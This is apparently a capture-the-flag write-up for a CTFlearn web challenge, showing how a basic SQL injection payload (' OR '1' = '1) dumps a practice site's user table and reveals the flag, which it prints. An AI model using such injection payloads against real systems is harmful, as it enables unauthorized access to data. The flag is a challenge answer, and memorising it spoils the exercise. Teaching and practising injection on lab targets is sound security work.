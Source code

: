 ## Basic Injection
The main idea finding the flag using basic SQL Injections to insecure web page.


#### Problem Statement:
<p align="center">
<img src="resources/images/Basic Injection.png">
<br>


#### Step-1:
After we go to the given URL https://web.ctflearn.com/web4/, we are asked to submit something.

#### Step-2:
Inspect Element the blank and try to check the code.

We find a line there.

`<!-- Try some names like Hiroki, Noah, Luke -->`

#### Step-3:
When you try all of them, none of them give the flag. So try basic SQL payloads the existing database.

I tried `' OR '1' = '1`

I got the following output.
```
Name: Luke  
Data: I made this problem.  
Name: Alec  
Data: Steam boys.  
Name: Jalen  
Data: Pump that iron fool.  
Name: Eric  
Data: I make cars.  
Name: Sam  
Data: Thinks he knows SQL.  
Name: fl4g__giv3r  
Data: th4t_is_why_you_n33d_to_sanitiz3_inputs  
Name: snoutpop  
Data: jowls  
Name: Chunbucket  
Data: @datboiiii
```

#### Step-4:

Finally the flag becomes:
`th4t_is_why_you_n33d_to_sanitiz3_inputs`
